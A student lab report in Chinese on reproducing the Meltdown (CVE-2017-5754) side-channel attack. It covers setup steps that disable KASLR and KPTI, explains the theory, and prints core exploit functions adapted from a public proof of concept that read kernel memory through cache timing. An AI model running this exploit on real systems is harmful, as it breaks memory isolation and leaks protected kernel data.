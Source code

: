 ## 操作系统实验四
### <center> ------Meltdown(CVE-2017-5754) Attack

-------------------------------
### 实验环境:  
 > - Release :  Ubuntu 16.04(LTS)
 > - Kernel :   Linux 4.13.0-45-generic  #x86_64
 > - CPU :   Intel(R) Core(TM) i7-6500U CPU @ 2.50GHz
### 实验准备：
> - 关闭KALSR
>     -  sudo perl -i -pe 'm/quiet/ and s//quiet nokaslr/' /etc/default/grub
>     - sudo update-grub 
> - 禁用kpi补丁
> - 设置CPU频率为最大性能
>     - cpufreq-set -g performance 
>     
> **检测实验环境是否满足**
>  
> ![Alt text](https://github.com/OSH-2018/4-uniqueufo/blob/master/1.png)


---------------------------------------------
### 实验原理
> Meltdown 利用Intel CPU的乱序执行漏洞，通过对内存的响应时间差来建立一个侧信道攻击，以此读取整个内核空间。
> - 1.乱序执行：
> &emsp; &emsp; intel CPU中自然也是使用了乱序执行，在执行单元等待从内存中取出数据的时间间隙，执行单元会去准备后面的指令。这种行为虽然提高了工作效率，但是也会产生副作用，meltdown就是利用了该行为产生的时间差来取得信息。
> 对于非乱序执行：
> &emsp; &emsp;取指令—>运行指令—>检测到异常—>清除数据—>退出
> 但是由于乱序执行，CPU提前执行了后续的非法指令：
> &emsp; &emsp;取指令—>运行指令1—>...—>非法指令—>...—>检测异常—>清除数据—>退出
> 利用这个窗口期可以建立侧信道攻击。
> - 2.侧信道攻击：
> &emsp;&emsp;指不去攻击信道本身来获得信息，而是通过观信道双方通信时产生的其他影响，通过分析泄露的额外信息来建立映射，进而取得信息。例如可以不断遍历加载探测数组，由于该数据此时已经在缓存中，攻击者总会遍历出一个加载时间远小于其它的数据，推测哪个内存页被访问过了，从而推断出被访问的内核内存数据。

> Meltdown通过cache泄露的额外信息，建立了一个侧信道攻击，来取得非授权地址内的信息。 


> *本次实验参考了github上著名的POC* 该POC能利用应用程序读取内核中的linux_proc_banner变量，这个变量存储了Linux内核的版本信息，可以通过命令cat /proc/version获取。cat /proc/version触发了系统调用将linux_proc_banner变量的信息返回给应用程序。而利用meltdown漏洞可以直接从应用程序中访问linux_proc_banner变量，破坏了内存隔离。

------------------------------------
### 主要函数
```x86asm
speculate(unsigned long addr)
{
    asm volatile (
    "1:\n\t"

    ".rept 300\n\t"
    "add $0x141, %%rax\n\t"//加法指令，重复300次，作用是测试处理器能乱序执行成功
    ".endr\n\t"

    "movzx (%[addr]), %%eax\n\t"//将目标内核地址所指向的数据放入eax寄存器中，该操作会触发处理器异常
    "shl $12, %%rax\n\t"//左移12位，也就是乘以4K，大小与target_array数组的列相等，为推测内核地址指向的数据做准备。
    "jz 1b\n\t"
    "movzx (%[target], %%rax, 1), %%rbx\n"//以目标内核地址指向的数据乘以4096作为索引访问target_array数组，
                                          // 这时，不同的数据将会被加载到不同的缓存页面中，这个过程是典型的缓存侧信道攻击。
    "stopspeculate: \n\t"
    "nop\n\t"
    :
    : [target] "r" (target_array),
    [addr] "r" (addr)
    : "rax", "rbx"
    );
}
```

```cpp
int readbyte(int fd, unsigned long addr)//循环调用clflush_target(),speculate(addr),check()
{
    int i, ret = 0, max = -1, maxi = -1;
    static char buf[256];

    memset(hist, 0, sizeof(hist));

    for (i = 0; i < CYCLES; i++) {//为提高准确性，循环1000次攻击流程
        ret = pread(fd, buf, sizeof(buf), 0);
        if (ret < 0) {
            perror("pread");
            break;
        }

        clflush_target();//冲洗掉target_array的缓存
        _mm_mfence();

        speculate(addr);//攻击
        check();//检测不同内存数据访问的时间差异来探测被缓存过的数据
    }
    for (i = 1; i < VARIANTS_READ; i++) {
        if (!isprint(i))
            continue;
        if (hist[i] && hist[i] > max) {
            max = hist[i];
            maxi = i;
        }
    }

    return maxi;
}
```
-------------------------------------------
### 实验结果
![Alt text](https://github.com/OSH-2018/4-uniqueufo/blob/master/2.png)


-------------------------------------------
> **参考资料**
> - https://github.com/paboldin/meltdown-exploit
> - http://www.cryptobadger.com/2018/01/linux-meltdown-spectre-patch-destroys-mining-hashrates-fix/
> - https://blog.hackerchai.com/meltdown-exploit-on-linux-opensource/
